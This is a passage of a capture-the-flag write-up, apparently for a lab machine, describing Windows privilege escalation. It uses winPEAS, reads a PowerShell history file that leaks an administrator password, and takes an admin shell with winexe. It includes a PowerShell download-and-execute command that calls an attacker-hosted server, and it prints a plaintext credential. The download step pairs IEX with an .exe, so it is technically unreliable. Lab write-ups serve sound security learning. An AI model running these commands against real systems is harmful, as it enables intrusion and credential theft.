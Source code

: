 ## Privesc

Started with a quick WinPEAS scan using `winPEASany.exe`. 

```none
└─$ wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe
```

Uploaded it to the server:

```none
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15:8000/winPEASany.exe')"
```

Served it using the same Python HTTP server method. Ran it, and reviewed the results. Notice some interesting Powershell history file that winPEAS detected.

```none
???????????? PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.17763.1
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 79B
```

Had a look at the file contents.

```none
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

Hurrah! More credentials:

- Username: `administrator`
- Password: `MEGACORP_4dm1n!!`

## Flag: Root (Admin shell using `winexe`)

After some Googling, I discovered the `winexe` tool. The docs describe the use of the tool:

> This tool is part of the samba(7) suite. The `winexe` allows remote command execution on native Windows operating systems.

I remember using it a long time ago - so it seemed like a good option. The syntax is relatively straightforward. I started with running `cmd.exe` to get a shell - which worked.

```none
└─$ winexe -U 'administrator%MEGACORP_4dm1n!!' //10.10.10.27 'powershell.exe'
```

